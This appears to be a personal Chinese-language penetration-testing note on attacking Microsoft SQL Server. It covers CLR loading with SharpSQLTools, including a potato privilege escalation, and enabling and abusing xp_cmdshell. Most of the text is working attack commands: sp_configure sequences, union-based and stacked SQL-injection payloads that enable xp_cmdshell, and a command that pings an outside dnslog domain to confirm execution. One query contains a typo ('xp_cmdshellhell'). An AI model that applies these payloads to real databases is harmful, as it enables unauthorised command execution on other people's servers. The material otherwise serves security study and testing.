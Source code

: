 - `CLR`:公共语言基础结构(Common Language Infrastructure),用来支持不同的编程语言.sql server集成了该组件,可以通过sql server执行编写CLR执行系统命令

- SharpSQLTools实现上传下载文件,`xp_cmdshell`与`sp_oacreate`双回显和clr加载程序执行响应的操作

- ```sql
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master install_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master clr_efspotato whoami
  ```

  ##### xp_cmdshell`利用`

  - 当前用户拥有`DBA权限`
  - 依赖于`xplog70.dll`
  - 存储过程`存在`并`已启用`

- xp_cmdshell存储过程可以执行系统命令,默认支持输出执行结果

- 从`MSSQL_2005`版本之后默认处于禁用状态,可以使用`sp_configure`来启用或者禁用`xp_cmdshell`

```sql
#xp_cmdshell利用

#判断当前是否为DBA权限,返回1即为sysadmin
select IS_SRVROLEMEMBER('sysadmin');
#查看是否存在xp_cmdshell,返回1则存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshellhell'
#开启xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;


#SQL注入+xp_cmdshell利用

#查看是否禁用xp_cmdshell
id=0'union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+ 
id=1'and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+

#开启cmdxp_cmdshell
id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+

#执行命令
id=1';exec master.sys.xp_cmdshell 'ping -n 1 d3rymk.dnslog.cn' --+
```

![image-20240906193747809](C:\Users\24937\Desktop\学习\笔记\assets\image-20240906193747809.png)

------

